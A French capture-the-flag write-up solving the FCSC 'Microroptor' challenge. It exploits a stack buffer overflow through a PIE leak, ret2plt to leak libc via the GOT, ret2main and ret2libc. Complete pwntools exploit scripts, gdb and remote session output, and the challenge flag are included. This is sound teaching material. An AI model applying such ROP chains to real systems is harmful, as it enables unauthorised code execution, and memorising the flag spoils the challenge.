

# pwn - Microroptor

## Courte description du challenge
Une adresse située dans le binaire est donnée.  
La vulnérabilité est un stack buffer overflow, qui permet de contrôler rip.  
Exploitation : ret2plt pour leak la GOT et avoir l'adresse de la libc, puis
ret2main et ret2libc.

---


Rien qu'avec le nom du challenge, on se doute qu'il faudra faire du ROP.  
Un petit `checksec ./microroptor` pour voir les protections du binaire :
```sh
$ checksec ./microroptor
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

On ouvre le binaire dans IDA. Voici donc le code du `main`.
```c
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  char buf[32]; // [rsp+0h] [rbp-20h] BYREF

  printf("%p\n", &s2);
  read(0, buf, 0x200uLL);
  if ( !strncmp(buf, s2, 9uLL) )
    puts("Welcome back master (of puppets)!");
  else
    puts("Nope, you are no master.");
  return 0LL;
}
```

On nous offre un gentil leak de l'adresse de `s2`. `s2` est la chaîne de
caractères "m3t4ll1cA", elle est située dans la section `.data`, à la suite du
binaire. On peut donc retrouver l'adresse où a été mappé le binaire, ce qui
contourne PIE.

Ensuite on lit 0x200 caractères dans un buffer qui peut en contenir 0x20 (32).
Un zéro de trop ? :)


Enfin on compare ce qui a été reçu sur l'entrée standard avec la chaîne `s2`.

On remarque que l'entrée n'est soumise à aucune condition particulière (présence
de null bytes, de retours à la ligne) puisque c'est la fonction `read` qui est
utilisée.

## Exploitation
### Leak de l'adresse du binaire

On peut tout d'abord récupérer le leak et calculer l'adresse de base du
binaire :
```py
#!/usr/bin/env python3

from pwn import *

exe = ELF("./microroptor")
libc = ELF("/usr/lib/libc.so.6")

context.binary = exe.path
context.terminal = ["tmux", "new-window"]


def conn():
    if args.REMOTE:
        r = remote("challenges.france-cybersecurity-challenge.fr", 2052)
    else:
        r = process([exe.path])

    return r

def attach_gdb():
    if args.GDB:
        gdb.attach(r, gdbscript="""
source ~/.gdbinit-gef.py
b*main+0x75
        """)


def main():
    global r
    r = conn()
    attach_gdb()

    leak = int(r.recvline().strip(), 16)
    exe.address = leak - (exe.bss()-0x8)
    info(f"exe @ {hex(exe.address)}")

    r.interactive()

if __name__ == "__main__":
    main()
```

On exécute avec `python3 exploit.py GDB` :
```
$ python3 exploit.py GDB
[+] Waiting for debugger: Done
[*] exe @ 0x559b54a46000
[*] Switching to interactive mode
$
```
et on compare le résultat avec gdb :
```
gef>  vmmap
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x0000559b54a46000 0x0000559b54a47000 0x0000000000000000 r-- /[...]/microroptor
0x0000559b54a47000 0x0000559b54a48000 0x0000000000001000 r-x /[...]/microroptor
0x0000559b54a48000 0x0000559b54a49000 0x0000000000002000 r-- /[...]/microroptor
0x0000559b54a49000 0x0000559b54a4a000 0x0000000000002000 r-- /[...]/microroptor
0x0000559b54a4a000 0x0000559b54a4b000 0x0000000000003000 rw- /[...]/microroptor
```

C'est correct.  
Maintenant, pour la ROP on aimerait exécuter `system("/bin/sh")` qui nécessite
l'adresse de la libc.

### Leak de l'adresse de la libc

La GOT contient les adresses dans la libc des fonctions utiles au programme.
Lors de l'exécution d'un binaire avec full RELRO, toutes les entrées de la GOT
sont résolues avant l'exécution du main. Avec seulement partial RELRO, elle
sont résolues au moment de leur utilisation.

Si l'on regarde les symboles exportés par le binaire, on voit qu'il utilise
`puts`, qui va nous être utile pour leaker l'adresse de la libc :
```sh
$ objdump -R microroptor

microroptor:     format de fichier elf64-x86-64

DYNAMIC RELOCATION RECORDS
OFFSET           TYPE              VALUE
0000000000003da0 R_X86_64_RELATIVE  *ABS*+0x0000000000001160
0000000000003da8 R_X86_64_RELATIVE  *ABS*+0x0000000000001120
0000000000004008 R_X86_64_RELATIVE  *ABS*+0x0000000000004008
0000000000004010 R_X86_64_RELATIVE  *ABS*+0x0000000000002008
0000000000003fd8 R_X86_64_GLOB_DAT  _ITM_deregisterTMCloneTable
0000000000003fe0 R_X86_64_GLOB_DAT  __libc_start_main@GLIBC_2.2.5
0000000000003fe8 R_X86_64_GLOB_DAT  __gmon_start__
0000000000003ff0 R_X86_64_GLOB_DAT  _ITM_registerTMCloneTable
0000000000003ff8 R_X86_64_GLOB_DAT  __cxa_finalize@GLIBC_2.2.5
0000000000003fb8 R_X86_64_JUMP_SLOT  strncmp@GLIBC_2.2.5
0000000000003fc0 R_X86_64_JUMP_SLOT  puts@GLIBC_2.2.5
0000000000003fc8 R_X86_64_JUMP_SLOT  printf@GLIBC_2.2.5
0000000000003fd0 R_X86_64_JUMP_SLOT  read@GLIBC_2.2.5
```

Pour cela on va faire un ret2plt pour appeler `puts(addr_puts_dans_la_got)`.
Puisque `puts` a déjà été appelée au moment du ret, son entrée dans la GOT sera
complétée par l'adresse de puts dans la libc.

Un ret2plt consiste à placer sur la stack, l'adresse de l'entrée de la plt
correspondant à la fonction que l'on souhaite exécuter. Cette technique
nécessite uniquement la connaissance de l'adresse du binaire, pas besoin de
savoir où se trouve la libc !

L'ordre des arguments pour l'appel d'une fonction en x86-64 est : `rdi`, `rsi`,
`rdx`, `rcx`, `r8`, `r9`.

`puts` attend un argument, il nous faut donc un gadget pour pouvoir placer une
valeur arbitraire dans `rdi`. On se sert de
[ROPGadget](https://github.com/JonathanSalwan/ROPgadget) :
```sh
$ ROPgadget --binary microroptor | grep 'pop rdi'
0x000000000000116f : pop rdi ; ret
```

Notre gadget se trouvera donc à `addr_binaire + 0x116f`.  
Comme `read` lit dans un buffer de 0x20 octets, la stack aura cette
disposition :
```
+---------------+----------------------+----------------------+
|               |                      |                      |
| buffer (0x20) | sauvegarde rbp (0x8) | sauvegarde rip (0x8) |
|               |                      |                      |
+---------------+----------------------+----------------------+
```

Ce qui donne :
```py
def main():
    global r
    r = conn()
    attach_gdb()

    leak = int(r.recvline().strip(), 16)
    exe.address = leak - (exe.bss()-0x8)
    info(f"exe @ {hex(exe.address)}")

    pop_rdi_ret = p64(exe.address + 0x000000000000116f)

    rop = b"A"*0x20 # buffer
    rop += b"B"*8 # saved rbp
    rop += pop_rdi_ret + p64(exe.got["puts"])
    rop += p64(exe.plt["puts"])
    r.sendline(rop)

    r.interactive()

if __name__ == "__main__":
    main()

```

```
$ python3 exploit.py
[*] exe @ 0x56447a3aa000
[*] Switching to interactive mode
Nope, you are no master.
\xa0\x15\x0f\x7f
[*] Got EOF while reading in interactive
$
```

On récupère donc l'adresse de `puts` dans la libc, et on est en mesure de
calculer l'adresse de la libc. En revanche, le binaire a fini son exécution.
Pour pallier à ça, on peut faire un ret2main, c'est-à-dire, placer l'adresse de
`main` sur la stack afin de ré-exécuter le programme.  
Le binaire est strippé, il ne contient pas les symboles, j'ai donc récupéré,
depuis IDA, le décalage de la fonction `main` par rapport au début du binaire
pour ajouter le symbole dans pwntools :
```py
def main():
    global r
    r = conn()
    attach_gdb()

    exe.symbols["main"] = 0x1178
    leak = int(r.recvline().strip(), 16)
    exe.address = leak - (exe.bss()-0x8)
    info(f"exe @ {hex(exe.address)}")

    pop_rdi_ret = p64(exe.address + 0x000000000000116f)

    rop = b"A"*0x20 # buffer
    rop += b"B"*8 # saved rbp
    rop += pop_rdi_ret + p64(exe.got["puts"])
    rop += p64(exe.plt["puts"])
    rop += p64(exe.symbols["main"])
    r.sendline(rop)
    r.recvline()

    addr_puts = u64(r.recvline().strip().ljust(8, b"\x00"))
    info(f"puts @ {hex(addr_puts)}")
    libc.address = addr_puts - libc.symbols["puts"]
    info(f"libc @ {hex(libc.address)}")

    r.interactive()
```

```
$ python3 exploit.py
[*] exe @ 0x55b0ff2a0000
[*] puts @ 0x7fc2423f75a0
[*] libc @ 0x7fc24237c000
[*] Switching to interactive mode
0x55b0ff2a4010
$ toto
Nope, you are no master.
[*] Got EOF while reading in interactive
```

Le programme est bien ré-exécuté une seconde fois. Et nous obtenons l'adresse de
la libc.  
Il ne nous reste plus qu'à faire une seconde ropchain pour appeler
`system("/bin/sh")`. pwntools possède une fonction pour trouver une chaîne de
caractères dans un binaire, nous nous en servons afin de trouver la chaîne
"/bin/sh\\x00" :
```py

def main():
    global r
    r = conn()
    attach_gdb()

    exe.symbols["main"] = 0x1178
    leak = int(r.recvline().strip(), 16)
    exe.address = leak - (exe.bss()-0x8)
    info(f"exe @ {hex(exe.address)}")

    pop_rdi_ret = p64(exe.address + 0x000000000000116f)

    rop = b"A"*0x20 # buffer
    rop += b"B"*8 # saved rbp
    rop += pop_rdi_ret + p64(exe.got["puts"])
    rop += p64(exe.plt["puts"])
    rop += p64(exe.symbols["main"])
    r.sendline(rop)
    r.recvline()

    addr_puts = u64(r.recvline().strip().ljust(8, b"\x00"))
    info(f"puts @ {hex(addr_puts)}")
    libc.address = addr_puts - libc.symbols["puts"]
    info(f"libc @ {hex(libc.address)}")

    rop = b"A"*0x20 # buffer
    rop += b"B"*8 # saved rbp
    rop += pop_rdi_ret + p64(next(libc.search(b"/bin/sh\x00")))
    rop += p64(libc.symbols["system"])
    r.sendline(rop)

    r.interactive()
```

```
$ python3 exploit.py
[*] exe @ 0x5575f7922000
[*] puts @ 0x7f2de33155a0
[*] libc @ 0x7f2de329a000
[*] Switching to interactive mode
0x5575f7926010
Nope, you are no master.
$ echo 'pwned'
pwned
$ exit
[*] Got EOF while reading in interactive
```

Il ne reste plus qu'à récupérer le flag !


Si l'on teste en remote, cela ne va pas marcher car ce n'est pas la même version
de la libc que celle en local, et donc les adresses, ou du moins les décalages
entre les fonctions, seront différentes :
```
$ python3 exploit.py REMOTE
[*] exe @ 0x61d28ba30000
[*] puts @ 0x7350935b15f0
[*] libc @ 0x735093536050
[*] Switching to interactive mode
0x61d28ba34010
Nope, you are no master.
[*] Got EOF while reading in interactive
$ id
$
[*] Interrupted
```

Pour récupérer la version de la libc utilisée par le challenge en ligne, on peut
se servir de ce site : [https://libc.blukat.me/](https://libc.blukat.me/)  
Il contient une liste de tous les symboles des différentes versions des libc et
permet de trouver la version de la libc utilisée à partir de l'adresse d'un ou
plusieurs symboles. Pour cela, il se sert du fait que la libc est mappée à une
adresse telle que les 12 derniers bits valent 0, ce qui donne en hexadécimal,
les 3 derniers caractères égaux à 0. On peut donc relier un symbole avec les
douze derniers bits de son adresse.  
On rentre l'adresse de `puts` (`0x7350935b15f0`) dans libc blukat :



Il nous retourne donc 6 résultats. On peut déjà écarter les 3 premiers qui
concernent des versions 32bits. Pour faire le choix entre les 3 versions
restantes, on peut soit leaker l'adresse d'une autre fonction de la libc, soit
toutes les tester. J'ai choisi la seconde option x).  
  
On télécharge donc les 3 libc, et on indique à notre script quelle libc
utiliser. On va commencer par la première (`libc6_2.31-13_amd64.so`) :
```py
#!/usr/bin/env python3

from pwn import *

exe = ELF("./microroptor")
# libc = ELF("/usr/lib/libc.so.6")
libc = ELF("libc/libc6_2.31-13_amd64.so")

context.binary = exe.path
context.terminal = ["tmux", "new-window"]


def conn():
    if args.REMOTE:
        r = remote("challenges.france-cybersecurity-challenge.fr", 2052)
    else:
        r = process([exe.path])

    return r

def attach_gdb():
    if args.GDB:
        gdb.attach(r, gdbscript="""
source ~/.gdbinit-gef.py
b*main+0x75
        """)


def main():
    global r
    r = conn()
    attach_gdb()

    exe.symbols["main"] = 0x1178
    leak = int(r.recvline().strip(), 16)
    exe.address = leak - (exe.bss()-0x8)
    info(f"exe @ {hex(exe.address)}")

    pop_rdi_ret = p64(exe.address + 0x000000000000116f)

    rop = b"A"*0x20 # buffer
    rop += b"B"*8 # saved rbp
    rop += pop_rdi_ret + p64(exe.got["puts"])
    rop += p64(exe.plt["puts"])
    rop += p64(exe.symbols["main"])
    r.sendline(rop)
    r.recvline()

    addr_puts = u64(r.recvline().strip().ljust(8, b"\x00"))
    info(f"puts @ {hex(addr_puts)}")
    libc.address = addr_puts - libc.symbols["puts"]
    info(f"libc @ {hex(libc.address)}")

    rop = b"A"*0x20 # buffer
    rop += b"B"*8 # saved rbp
    rop += pop_rdi_ret + p64(next(libc.search(b"/bin/sh\x00")))
    rop += p64(libc.symbols["system"])
    r.sendline(rop)

    r.interactive()

if __name__ == "__main__":
    main()
```

On teste sur le challenge en ligne :
```
$ python3 exploit.py REMOTE
[*] exe @ 0x5f5bfcc75000
[*] puts @ 0x79b5c27385f0
[*] libc @ 0x79b5c26c2000
[*] Switching to interactive mode
0x5f5bfcc79010
Nope, you are no master.
$ id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
$ ls -la
total 28
drwxr-xr-x 1 root root  4096 Apr 29 08:01 .
drwxr-xr-x 1 root root  4096 Apr 29 08:01 ..
-r-------- 1 ctf  ctf     71 Apr 29 08:01 flag
-r-x------ 1 ctf  ctf  14320 Apr 29 08:01 microroptor
$ cat flag
FCSC{e3752da07f2c9e3a0f9ad69679792e5a8d53ba717a2652e29fb975fcf36f9258}
$ exit
[*] Got EOF while reading in interactive
$
[*] Interrupted
[*] Closed connection to challenges.france-cybersecurity-challenge.fr port 2052
```

C'était la bonne version de la libc, nous obtenons donc le flag.
